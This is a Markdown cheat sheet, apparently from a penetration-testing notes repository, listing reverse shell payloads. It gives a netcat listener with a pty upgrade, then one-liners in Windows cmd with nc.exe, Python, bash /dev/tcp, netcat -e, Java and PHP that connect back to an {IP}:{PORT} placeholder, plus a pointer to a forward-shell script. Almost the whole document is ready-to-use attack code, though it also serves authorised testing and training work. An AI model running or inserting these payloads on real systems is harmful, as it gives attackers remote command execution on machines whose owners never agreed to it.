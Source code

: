 Reverse-Shell
=============

A list of Reverse Shells on multiple languages. Replace `{IP}` and `{PORT}` values
with a couple `IP:port` the server can access. Then, on your local machine you open
a listener with `netcat`:

## On local machine

### Listen with NetCat

To listen for an incoming connection and upgrade to a pty shell:

```bash
nc -lvnp {PORT}

# after the connection is established
python -c 'import pty; pty.spawn("/bin/bash")'
```

> On macOS use the `netcat` from [homebrew](https://formulae.brew.sh/formula/netcat)
> instead of the one provided by the OS


### Upgrade the shell

Then, `Ctrl-Z` to suspend the connection and return to your own terminal.
Type on your terminal:

```bash
stty raw -echo
```

The console should be black, next foreground the shell with:

```bash
fg
reset
```

On target host:

```bash
export SHELL=bash
export TERM=xterm-256color
stty rows 24 columns 80
```

Now you should have a complete shell with shortcuts available.


## On the remote server

### Windows

Upload [`nc.exe`](/assets/nc.exe) (or [`nc64.exe`](/assets/nc64.exe)) on the
remote server then use the command (same as [NetCat](#netcat)):

```bash
cmd.exe /C "nc.exe {IP} {PORT} -e cmd.exe"
```


### PowerShell

This is explain in the [Windows / Download and execute script section](windows.md#download-and-execute-script).


### Python
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP}",{PORT}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Bash
```bash
bash -i >& /dev/tcp/{IP}/{PORT} 0>&1
```

> To use the bash's built-in `/dev/tcp` device file the use must use `/bin/bash`
> as shell. Often it uses `sh` or `dash`, then you can use `bash -c "<cmd>"` to
> force the `bash`


### Netcat
```bash
nc -e /bin/sh {IP} {PORT}
```

### Java
```java
r = Runtime.getRuntime();p = r.exec(["your payload"] as String[]);p.waitFor()
String[] cmd={"cmd","/C","<cmd>"};Runtime.getRuntime().exec(cmd);
```

> This payload can also work with `BeanShell` scripts.


### PHP
```bash
php -r '\$sock=fsockopen(\"{IP}\",{PORT});exec(\"/bin/sh -i <&3 >&3 2>&3\");'
```


## Forward shell

If the remote server cannot contact your local machine, it's still possible to
use a shell that accept commands from named pipes using `mkfifo` and send the
output to a file.

IppSec has a repository on Github with a simple but effective script to demonstrate
the technique on a vulnerable web server: [`forward-shell`](https://github.com/IppSec/forward-shell).
You need to set the vulnerable url (`self.url = r"http://'...`) and the exploit
arguments (`headers = {'User-Agent': payload}`). Remember that you can use the same
technique on other services that allow you to inject commands.
